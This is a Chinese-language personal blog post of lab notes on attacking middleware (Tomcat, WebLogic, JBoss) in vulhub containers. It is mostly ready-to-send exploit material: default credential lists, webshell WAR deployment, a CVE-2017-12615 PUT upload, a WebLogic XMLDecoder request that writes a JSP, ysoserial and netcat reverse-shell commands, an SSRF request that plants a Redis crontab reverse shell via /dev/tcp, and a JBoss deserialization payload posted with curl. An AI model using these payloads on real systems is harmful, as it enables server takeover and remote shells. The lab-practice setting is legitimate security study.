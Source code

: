 ```yaml
---
title: 中间件测试
date: 2018-4-17 8:50:30
tags: Web安全
toc: true
---
```


> 周末陪陪家人
> 记录下一些中间件测试常见步骤

## Tomcat
---
  开始安装ubuntu，用sudo passwd root设置root密码，运行p神的[vulhub](https://github.com/vulhub/vulhub)时用root运行成功.

### Tomcat7弱口令上传rar
---
sudo docker ps #查看启动的docker

http://127.0.0.1:8080/manager/html 口令tomcat  
ma.jsp文件打包为zip改后缀名为ma.war，deploy后访问http://127.0.0.1:8080/ma/ma.jsp
```
root/root
tomcat/tomcat 
admin admin
admin 123456
```
### Tomcat5-9 PUT写文件
---

	curl -X PUT http://127.0.0.1:port/test.jsp/ -d @- < test.jsp
	
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/中间件1.png)
https://github.com/breaktoprotect/CVE-2017-12615
https://github.com/iBearcat/CVE-2017-12615

## Weblogic
---
http://127.0.0.1:7001/console

### 弱口令
---
常见弱口令
```
weblogic    weblogic 或Oracle@123
system      system
portaladmin portaladmin
guest       guest
```
部署-安装-上载文件ma.war(ma.jsp打包为ma.zip改名为ma.war)  
访问127.0.0.1:7001/ma/ma.jsp  例子的目录命名为ma

### Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞
---
写shell地址 http://127.0.0.1:7001/bea_wls_internal/test.jsp   
burp发送即可
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

### Weblogic 10.3.6.0 && 12.1.3.0 && 12.2.1.2 && 12.2.1.3
---
[poc](https://raw.githubusercontent.com/shengqi158/CVE-2018-2628/master/weblogic_poc.client1.for.scan-cve-2018-2628.py)  
攻击者使被攻击主机请求JRMPListener主机(恶意payload)，并执行  
利用：  
在JRMPListener主机上运行以下命令：

		wget https://jitpack.io/com/github/frohoff/ysoserial/master/ysoserial-master.jar
		java -cp ysoserial.jar ysoserial.exploit.JRMPListener [监听端口] CommonsCollections1 [执行命令]

		例子：java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'nc -nv 反弹ip 反弹端口'
		
监听

		nc -lvvp 6666

运行

	python CVE-2018-2628.py 
	
### Weblogic 10.0.2 -- 10.3.6 ssrf
---
burp发包，探测端口
```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```
不存在则返回could not connect
Redis反弹shell
```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.18.0.3:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

## JBOSS
---
默认后台  
http://localhost:8080

### JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）
---
工具下载地址 http://scan.javasec.cn/java/JavaDeserH2HC.zip
```
	javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
	java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap ip:port //生成一个ReverseShellCommonsCollectionsHashMap.ser二进制文件
	nc -l -vv 9999
	curl http://192.168.1.109:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/中间件3.png)
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/中间件4.png)

### 弱口令 getshell过程　　
---
admin:admin  
以下引用Nmask:  
　　访问管理页面，查看jboss配置页面中的JMX Console，这是JBoss的管理台程序，进入后找到Jboss.deployment包，该包下有flavor=URL.type=DeploymentSccanner选项。进入部署页面后便可以上传war文件，但与tomcat不同的是它不是本地上传war文件，而是从远程地址下载，因此需要自己准备一个文件服务器，用于远程下载war到目标jboss服务器上。具体方法是在部署页面找到”ADDURL”方法，输入URL地址，点击invoke。除了以上方法外，JMX-Console提供的BSH方法，同样也可以部署war包。

### JBoss JMXInvokerServlet 反序列化漏洞
---

tools https://cdn.vulhub.org/deserialization/DeserializeExploit.jar
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/中间件2.png)

#### Reference
https://github.com/vulhub
